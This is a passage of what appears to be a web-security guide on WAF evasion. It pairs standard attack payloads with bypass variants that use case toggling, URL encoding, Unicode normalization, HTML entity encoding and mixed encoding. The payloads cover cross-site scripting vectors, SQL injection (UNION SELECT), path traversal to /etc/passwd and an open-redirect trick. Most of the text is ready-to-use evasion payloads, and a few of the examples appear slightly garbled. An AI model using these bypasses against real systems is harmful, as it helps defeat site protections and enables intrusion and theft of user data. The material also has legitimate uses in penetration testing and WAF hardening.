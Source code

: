 **Standard**: `<script>alert()</script>`  
**Bypassed**: `<ScRipT>alert()</sCRipT>`

**Standard**: `SELECT * FROM all_tables WHERE OWNER = 'DATABASE_NAME'`  
**Bypassed**: `sELecT * FrOm all_tables whERe OWNER = 'DATABASE_NAME'`

**2. URL Encoding**

* Encode normal payloads with % encoding/URL encoding.
* Can be done with online tools like [this](https://www.url-encode-decode.com/).
* Burp includes a in-built encoder/decoder.

**Blocked**: `<svG/x=">"/oNloaD=confirm()//`  
**Bypassed**: `%3CsvG%2Fx%3D%22%3E%22%2FoNloaD%3Dconfirm%28%29%2F%2F`

**Blocked**: `uNIoN(sEleCT 1,2,3,4,5,6,7,8,9,10,11,12)`  
**Bypassed**: `uNIoN%28sEleCT+1%2C2%2C3%2C4%2C5%2C6%2C7%2C8%2C9%2C10%2C11%2C12%29`

**3. Unicode Normalization**

* ASCII characters in unicode encoding encoding provide great variants for bypassing.
* You can encode entire/part of the payload for obtaining results.

**Standard**: `<marquee onstart=prompt()>`  
**Obfuscated**: `<marquee onstart=\u0070r\u06f\u006dpt()>`

**Blocked**: `/?redir=http://google.com`  
**Bypassed**: `/?redir=http://google。com` \(Unicode alternative\)

**Blocked**: `<marquee loop=1 onfinish=alert()>x`  
**Bypassed**: `＜marquee loop＝1 onfinish＝alert︵1)>x` \(Unicode alternative\)

> **TIP:** Have a look at [this](https://hackerone.com/reports/231444) and [this](https://hackerone.com/reports/231389) reports on HackerOne. :\)

**Standard**: `../../etc/passwd`  
**Obfuscated**: `%C0AE%C0AE%C0AF%C0AE%C0AE%C0AFetc%C0AFpasswd`

**4. HTML Representation**

* Often web apps encode special characters into HTML encoding and render them accordingly.
* This leads us to basic bypass cases with HTML encoding \(numeric/generic\).

**Standard**: `"><img src=x onerror=confirm()>`  
**Encoded**: `&quot;&gt;&lt;img src=x onerror=confirm&lpar;&rpar;&gt;` \(General form\)  
**Encoded**: `&#34;&#62;&#60;img src=x onerror=confirm&#40;&#41;&#62;` \(Numeric reference\)

**5. Mixed Encoding**

* Sometimes, WAF rules often tend to filter out a specific type of encoding.
* This type of filters can be bypassed by mixed encoding payloads.
* Tabs and newlines further add to obfuscation.

**Obfuscated**:

```text
<A HREF="h
tt  p://6   6.000146.0x7.147/">XSS</A>
```
